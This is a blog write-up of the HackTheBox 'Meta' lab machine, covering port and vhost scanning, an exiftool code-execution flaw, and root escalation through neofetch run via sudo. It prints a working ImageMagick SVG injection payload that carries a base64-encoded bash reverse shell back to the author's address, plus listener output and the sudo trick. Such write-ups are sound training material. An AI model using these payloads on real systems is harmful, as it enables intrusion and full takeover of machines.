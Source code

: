 ```yaml
---
title: Meta writeup
date: 2022-06-24 12:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["medium-box", "exiftool", "imagetragick"]    # TAG names should always be lowercase
img_path: /assets/img/boxes/meta/
image: # Thumbnail 
  src: Meta.png
  width: 1000   # in pixels
  height: 400   # in pixels
---              
```


## Summary

## Foothold
We start out with a nmap port scan.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/meta]
└─$ nmap -sC -sV 10.129.83.137    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 15:13 CEST
Nmap scan report for 10.129.83.137
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.35 seconds
```
The box has two open ports, 22 nad 80. We can see based on the scan that the web application hosted on port 80 redirects to `http://artcorp.htb` so let's add it to our hosts file. We can then use gobuster to enumerate vhosts.
```console
┌──(bitis㉿workstation)-[~/Coding/BitisG.github.io]
└─$ gobuster vhost -u artcorp.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://artcorp.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/06/24 15:47:54 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
                                                  
===============================================================
2022/06/24 15:48:25 Finished
===============================================================
```
Visiting `dev01.artcorp.htb` gets us to the following page

![dev01 welcome page](dev01.png)
_dev01 welcome page_

Taking a look at the Metaview application, it seems that it simply takes a png/jpg and runs exiftool on it. 

![metaview application](metaview.png)

Searching for vulnerabilities in exiftool leads us to the following [github repository](https://github.com/convisolabs/CVE-2021-22204-exiftool). A quick TL;DR of the exploit: in older versions of exiftool, if an image contained djvu data it would be impoperly handled, leading to code execution. We can leverage this into getting a reverse shell on the box.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/meta/CVE-2021-22204-exiftool]
└─$ nc -lvnp 9090             
listening on [any] 9090 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.83.137] 42948
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## Pivot
Now that we have access as www-data on the box, it is time to get access to a proper user account. We can run pspy to see if there are any interesting processes being run on the box.
```console
2022/06/24 08:20:01 CMD: UID=0    PID=2038   | cp -rp /root/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2022/06/24 08:20:01 CMD: UID=1000 PID=2039   | /bin/bash /usr/local/bin/convert_images.sh 
2022/06/24 08:20:01 CMD: UID=1000 PID=2040   | /usr/local/bin/mogrify -format png *.* 
2022/06/24 08:20:01 CMD: UID=1000 PID=2041   | /bin/bash /usr/local/bin/convert_images.sh 
```
As we can see, root is messing around with neofetch for some reason, and the user with UID 1000 is running a script named `convert_images.sh`. The contents of the script can be found below:
```console
ww-data@meta:/var/www/dev01.artcorp.htb/metaview$ cd /usr/local/bin
cd /usr/local/bin
www-data@meta:/usr/local/bin$ ls
ls
Magick++-config    compare    convert_images.sh  import         montage
MagickCore-config  composite  display            magick         stream
MagickWand-config  conjure    exiftool           magick-script
animate            convert    identify           mogrify
www-data@meta:/usr/local/bin$ cat convert_images.sh
cat convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
www-data@meta:/usr/local/bin$ 

```
As we can see it is a rather straightforward oneliner. If we take a look at the other files found in the directory where the script is found we might be lead to belive that the system is using imagemagick to perform actions on user submitted images. This points us towards [imagetragick](https://imagetragick.com/). More specifically, the version of mogrify reveals that the box is using imagemagick version 7.0.10-36. Searching around for related exploits and proof-of-concepts gives us the [following post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html), revealing that we can use an XML file to inject commands. I base64 encoded a reverse shell and uploaded the following xml file as a svg to the target system. 
```XML
<image authenticate='ff" `echo
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgJj4vZGV2L3RjcC8xMC4xMC4xNy4xODIvMTMzNyAwPiYxJwo=|base64 -d|bash`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:shup.svg" height="100" width="100"/>
</svg>
</image>
```
Once the cron job has run we get a reverse shell:
```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 1337              
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.83.137] 39694
bash: cannot set terminal process group (2641): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ 
```
## privilege escalation
Running sudo -l we get the following output: 
```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
thomas@meta:~$ 
```
We can neofetch as root. The interesting thing to note here is that we get to keep the value of the environmentv alue `XDG_CONFIG_HOME` Reading the [documentation](https://specifications.freedesktop.org/basedir-spec/basedir-spec-latest.html), this variable "defines the base directory relative to which user-specific configuration files should be stored. If `$XDG_CONFIG_HOME` is either not set or empty, a default equal to $HOME/.config should be used". Since it is not set currently, this means that when we run neofetch, the config file is fetched from `/root/.config`{: .filepath}. If we create a bash script somewhere and then replace the config file for neofetch with it, the content of the file will be executed. Assuming of course that we set the path to the script correctly prior to execution.
```
thomas@meta:~/.config/neofetch$ echo "exec /bin/bash" > config.conf 
thomas@meta:~$ export XDG_CONFIG_HOME=~/.config/
thomas@meta:~$ sudo neofetch
root@meta:/home/thomas# 
```
Rooted!

